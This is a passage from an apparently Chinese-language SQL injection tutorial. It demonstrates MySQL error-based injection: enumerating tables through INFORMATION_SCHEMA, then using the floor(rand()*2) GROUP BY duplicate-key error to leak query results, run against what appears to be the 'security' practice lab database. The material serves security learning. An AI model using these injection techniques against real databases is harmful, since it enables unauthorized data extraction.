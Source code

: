 同理，我们可以给payload传MySQL内置的各类函数：

```sql
SELECT CONCAT((SELECT DATABASE()));
			+-----------------------------+
			| CONCAT((SELECT DATABASE())) |
			+-----------------------------+
			| security                    |
			+-----------------------------+
SELECT CONCAT(
    	(
            SELECT GROUP_CONCAT(TABLE_NAME) 
   			FROM INFORMATION_SCHEMA.TABLES
   			WHERE TABLE_SCHEMA='security'
        )
	)
	AS something;
			+-------------------------------+
			| something                     |
			+-------------------------------+
			| emails,referers,uagents,users |
			+-------------------------------+
```

2016年，一位用户发现并提交了MySQL中[RAND()引发的运行时错误](https://bugs.mysql.com/bug.php?id=82544)，官方确认后将其写入到[官方文档](https://dev.mysql.com/doc/refman/5.7/en/mathematical-functions.html#function_rand)中：

> Use of a column with RAND() values in an ORDER BY or GROUP BY clause may yield unexpected results because for either clause a RAND() expression can be evaluated multiple times for the same row, each time returning a different result.
> 如果在`ORDER BY`或`GROUP BY`子句中使用的列名含有`RAND()`函数的表达式，则可能会输出不可预料的结果。这是因为在这些子句对`SELECT`筛选出的记录进行处理、计数、归类、排序的过程中，将会反复调用用户指定的列名。而列名中包含`RAND()`函数，这导致就算是对于同一行记录而言，子句每次进行处理、计数、归类、排序时使用的标准都有可能不一样。

`RAND()`本身不一样并不可怕，例如官方文档我们可以用`ORDER BY RAND()`实现乱序随机输出。可怕的是根据抽屉原理，在足够的样本面前，含有`RAND()`的表达式会造成“一样”，这种一样才是最可怕的。当一样时，程序会爆出`ERROR 1062 (23000): Duplicate entry '<ColumnNameWithRAND()>' for key 'group_key'`的错误。其中`<ColumnNameWithRAND()>`是所需表达式执行后的结果，利用这一点可以实现错误注入。

```sql
SELECT CONCAT((SELECT database()),floor(rand()*2)) AS something
	FROM INFORMATION_SCHEMA.TABLES
	WHERE TABLE_SCHEMA='security';
			+-----------+
			| something |
			+-----------+
			| security0 |
			| security0 |
			| security1 |
			| security0 |
			+-----------+
SELECT CONCAT((SELECT database()),floor(rand()*2)) AS something
	FROM INFORMATION_SCHEMA.TABLES
	WHERE TABLE_SCHEMA='security'
	GROUP BY something;
			+-----------+
			| something |
			+-----------+
			| security0 |
			| security1 |
			+-----------+
-- 执行下列语句会得到不同的结果，自检得到成功频率=41/80，失败频率=39/80，大概五五开
SELECT
	COUNT(*),
	CONCAT((SELECT database()),floor(rand()*2)) AS something
	FROM INFORMATION_SCHEMA.TABLES
	WHERE TABLE_SCHEMA='security'
	GROUP BY something;
```